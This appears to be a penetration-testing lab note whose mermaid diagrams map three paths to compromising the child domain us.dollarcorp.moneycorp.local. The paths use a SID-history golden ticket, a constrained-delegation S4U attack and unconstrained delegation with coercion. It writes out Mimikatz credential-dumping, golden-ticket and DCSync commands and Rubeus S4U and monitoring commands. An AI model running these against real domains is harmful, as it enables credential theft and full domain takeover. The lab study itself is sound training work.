


# us.dollarcorp.moneycorp.local — Child Domain Compromise

## Attack Path

```mermaid
flowchart TD
    START(["🔑 DA on dollarcorp\nor Enterprise Admin"])

    subgraph enum_us["Phase 1: Enumerate US Domain"]
        E1["Enumerate us.dollarcorp.moneycorp.local\nGet-ADDomain -Identity us.dollarcorp.moneycorp.local\nGet-DomainComputer -Domain us.dollarcorp.moneycorp.local"]
        E2["Enumerate trust relationship\ndollarcorp ↔ us.dollarcorp\nParent-child trust\nSID filtering NOT enforced"]
        E3["Enumerate us-web delegation\nGet-DomainComputer -TrustedToAuth\n-Domain us.dollarcorp.moneycorp.local"]
        E4["us-web has constrained delegation\nto us-dc (TIME service)"]
    end

    subgraph sid_us["Path A: SID History → us-dc DA"]
        SID1["Use dollarcorp DA / EA\nto access us-dc directly\nInter-forest parent-child trust\nis transitive within forest"]
        SID2["Create golden ticket with\nus.dollarcorp SID + dollarcorp EA SID\nkerberos::golden /user:Administrator\n/domain:dollarcorp.moneycorp.local\n/sid:DCORP_SID\n/sids:US_DOMAIN_EA_OR_DA_SID\n/krbtgt:DCORP_KRBTGT /ptt"]
        SID3["✅ DA in us.dollarcorp\nvia SID history in golden ticket"]
    end

    subgraph us_web["Path B: us-web Constrained Delegation → us-dc"]
        UW1["Enumerate us-web machine account\nGet-DomainComputer -Identity us-web\n-Properties msDS-AllowedToDelegateTo"]
        UW2["us-web$ constrained to\nTIME/us-dc.us.dollarcorp.moneycorp.local"]
        UW3["Extract us-web$ machine hash\n(need local admin on us-web first)\nsekurlsa::logonpasswords on us-web\nOR lsadump::lsa /patch"]
        UW4["S4U2Proxy attack\nRubeus.exe s4u\n/user:us-web$\n/rc4:MACHINE_HASH\n/impersonateuser:Administrator\n/msdsspn:TIME/us-dc.us.dollarcorp.moneycorp.local\n/altservice:ldap /ptt"]
        UW5["LDAP ticket for us-dc\nas Administrator\n→ DCSync us.dollarcorp"]
        UW6["✅ Full us.dollarcorp\ncompromise"]
    end

    subgraph us_mgmt["Path C: us-mgmt Unconstrained Delegation"]
        UM1["us-mgmt has\nUnconstrained Delegation\n(TrustedForDelegation = True)"]
        UM2["Gain access to us-mgmt\n(via DA creds or constrained deleg)"]
        UM3["Monitor for TGTs\nRubeus.exe monitor /interval:5"]
        UM4["Coerce us-dc authentication\nPrinter Bug / MS-WSP\ntoward us-mgmt"]
        UM5["Capture US-DC$ TGT\non us-mgmt LSASS"]
        UM6["DCSync us.dollarcorp\nwith US-DC$ ticket"]
        UM7["✅ krbtgt of us.dollarcorp\nextracted"]
    end

    subgraph post_us["Phase 4: Post Compromise"]
        P1["DCSync us.dollarcorp\nlsadump::dcsync\n/domain:us.dollarcorp.moneycorp.local\n/user:krbtgt"]
        P2["Golden ticket for us.dollarcorp\nPersistent access"]
        P3["Enumerate further trusts\nfrom us.dollarcorp\nAny additional child domains?"]
    end

    START --> E1 --> E2 --> E3 --> E4
    E2 --> SID1 --> SID2 --> SID3
    E4 --> UW1 --> UW2 --> UW3 --> UW4 --> UW5 --> UW6
    START --> UM1 --> UM2 --> UM3 --> UM4 --> UM5 --> UM6 --> UM7
    SID3 & UW6 & UM7 --> P1 --> P2 & P3

    style START fill:#4CAF50,color:#fff
    style SID3 fill:#f44336,color:#fff
    style UW6 fill:#f44336,color:#fff
    style UM7 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((us.dollarcorp))
    Machines
      us-dc
        Domain Controller
        Target for DA
      us-mgmt
        Likely unconstrained delegation
        Coercion target
      us-web
        Constrained delegation
        S4U attack surface
    Access Paths
      SID History (Golden Ticket)
        dcorp krbtgt hash
        Add us.dollarcorp SIDs
        kerberos::golden /sids
        Transitive parent-child trust
      Constrained Delegation
        us-web$ machine account
        TIME/us-dc delegation
        S4U2Proxy + altservice LDAP
        DCSync us.dollarcorp
      Unconstrained Delegation
        us-mgmt machine
        Coerce us-dc
        Capture US-DC$ TGT
        DCSync
    Post Compromise
      DCSync us.dollarcorp
        krbtgt hash
        All account hashes
      Golden ticket
        Persistent access
      Further enumeration
        Child domain trusts
```
